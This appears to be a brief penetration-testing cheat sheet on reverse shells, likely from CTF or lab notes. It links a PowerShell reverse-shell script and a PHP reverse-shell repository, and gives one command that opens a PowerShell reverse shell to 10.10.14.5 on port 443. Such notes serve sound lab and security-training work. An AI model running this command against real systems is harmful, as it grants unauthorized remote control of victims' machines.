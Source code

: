 
# Powershell

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

# PHP

[GitHub - Dhayalanb/windows-php-reverse-shell: Simple php reverse shell implemented using binary .](https://github.com/Dhayalanb/windows-php-reverse-shell)
